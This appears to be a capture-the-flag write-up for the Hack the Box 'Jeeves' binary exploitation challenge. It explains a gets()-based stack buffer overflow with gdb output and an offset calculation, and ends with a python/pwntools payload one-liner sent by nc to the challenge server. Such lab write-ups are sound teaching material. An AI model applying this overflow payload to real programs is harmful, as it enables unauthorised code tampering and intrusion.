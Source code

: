 ### Jeeves Hack the Box Challenge : Intro to Binary Exploitation

Lets try to check what the binary is doing and it seems to be a very simple binary just out putting the following  output and in the middle it asks for our name and then displays it with a greeting like so :

```bash
Hello, good sir!
May I have your name? a
Hello a, hope you have a good day!
```

Now lets analyze the file in Ghidra to see what its actually doing.

![Ghidra Screenshot](./Images/ghidra.png)

Here it seems we need to overwrite the value of the variable i have renamed as variable to overwrite and this machine is using the gets function which is vulnerable to buffer overflow so we can try to overwrite the value to that certain point using the buffer overflow attack but to do lets first lets see if we can overwrite stuff. So transferring my application to gdb and running it with a 100 characters i get a segmentation fault and i can see that i can overwrite the variable :

```bash
gdb-peda$ r
Starting program: /home/nickapic/htb/challenges/jeeves
Hello, good sir!
May I have your name? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, hope you have a good day!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0x5555555592a0 ("Hello ", 'a' <repeats 100 times>, ", hope you have a good day!\n")
RDI: 0x7ffff7fa5670 --> 0x0
RBP: 0x6161616161616161 ('aaaaaaaa')
RSP: 0x7fffffffded8 ('a' <repeats 28 times>)
RIP: 0x5555555552ae (<main+197>:	ret)
R8 : 0xffffffff
R9 : 0x86
R10: 0x7fffffffde90 ('a' <repeats 100 times>)
R11: 0x246
R12: 0x555555555100 (<_start>:	endbr64)
R13: 0x0
R14: 0x0
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
```

Now lets try to calculate how many values we gotta go over to get the our variable to overwrite.

We see there is 44 size buffer then an integer which is 4 bytes , then a pointer which is normally 8 bytes and then the int variable which we have to overwrite is 4 bytes so we will need to also add another 4 bytes this calculation to ```0x1337bab3```
So 44+4+8+4 = 56 bytes of padding and then the address. So we can also see that this is in little endian and for 64bit. So we can use soemthing like the pwn library to pack our 64 bit integer

Information about this : https://docs.pwntools.com/en/stable/util/packing.html?highlight=p64#pwnlib.util.packing.p64


```bash
python2 -c "import pwn; print('a'*60 + pwn.p64(0x1337bab3))" > input.txt
```

and then to get the flag we can use :

```bash
nc 139.59.162.195 30942 < input
```

